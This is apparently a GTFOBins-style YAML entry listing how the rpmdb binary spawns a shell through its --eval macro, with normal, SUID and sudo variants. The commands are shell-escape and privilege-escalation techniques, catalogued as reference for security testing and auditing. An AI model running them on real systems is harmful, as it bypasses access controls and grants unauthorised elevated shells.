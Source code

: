 functions:
  shell:
    - code: rpmdb --eval '%(/bin/sh 1>&2)'
  limited-suid:
    - code: ./rpmdb --eval '%(/bin/sh 1>&2)'
  sudo:
    - code: sudo rpmdb --eval '%(/bin/sh 1>&2)'
---
